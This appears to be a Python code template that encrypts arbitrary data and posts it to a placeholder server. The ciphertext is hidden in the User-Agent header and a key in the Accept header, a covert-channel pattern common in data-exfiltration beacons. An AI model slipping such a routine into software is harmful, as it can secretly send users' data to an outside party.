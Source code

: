 # Add this snippet to your code to post data to server
import requests, rsa
from rsa import PublicKey
# Send data to server
def payload(data):
    # Encrypt data
    publicKey = {{publicKey}}
    data = rsa.encrypt(str(data).encode(), publicKey).hex()
    headers = {
    "Accept": "{{postKey}}",
    "User-Agent": data
    }
    request = requests.post("{{website}}",headers=headers)
    if(request.status_code == 200):
        return True